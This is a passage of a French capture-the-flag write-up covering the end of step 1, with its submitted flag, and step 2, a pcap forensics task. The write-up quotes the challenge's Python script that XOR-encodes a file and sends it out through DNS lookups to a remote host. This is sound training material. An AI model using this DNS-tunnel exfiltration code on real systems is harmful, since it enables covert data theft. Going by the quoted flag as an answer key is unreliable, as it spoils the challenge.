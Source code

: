 ```python
    print("%s" % chr((ord(u_u[i]) - game[i] + i*42 )*-1), end = '')
```

> 1f1bd383026a5db8145258efb869c48f

Une fois le bon flag soumis, on arrive directement à l'étape 2.

## II. Step 2 - Old EXFIL but Gold

https://ctf.hexpresso.fr/1f1bd383026a5db8145258efb869c48f

| Event        | Challenge | Category | Solves |
| ------------ | --------- | -------- | ------ |
| CatureTheFic | Step 2    | Forensic / Crypto      | 531    |

### II.1. Etat de l'art

![](/lib/images/writeups/2020_hexpresso_fic/upload_264dea3e7b82050631a5215821682f40.png)

Cette deuxième épreuve nous laisse avec un fichier pcap.

On remarque différents types de flux dont beaucoup de paquets utilisant le protocole DNS. Après avoir suivi le HTTP Stream sur Wireshark de certains paquets, on remarque que l'utilisateur a voulu implémenté un tunnel DNS en python (dnstunnel.py) avec un algorithme de chiffrement maison laissant à désirer.

![](/lib/images/writeups/2020_hexpresso_fic/upload_6343d17e234d7f87f3f884dc1c16c905.png)


```python
#!/usr/bin/python3
# I have no idea of what I'm doing

#Because why not!
import random
import os

f = open('data.txt','rb')
data = f.read()
f.close()

print("[+] Sending %d bytes of data" % len(data))

#This is propa codaz
print("[+] Cut in pieces ... ")

def encrypt(l):
    #High quality cryptographer!
    key = random.randint(13,254)
    output = hex(key)[2:].zfill(2)
    for i in range(len(l)):
        aes = ord(l[i]) ^ key
        #my computer teacher hates me
        output += hex(aes)[2:].zfill(2)
    return output

def udp_secure_tunneling(my_secure_data):
    #Gee, I'm so bad at coding
    #if 0:
    mycmd = "host -t A %s.local.tux 172.16.42.222" % my_secure_data
    os.system(mycmd)
    #We loose packet sometimes?
    os.system("sleep 1")
    #end if

```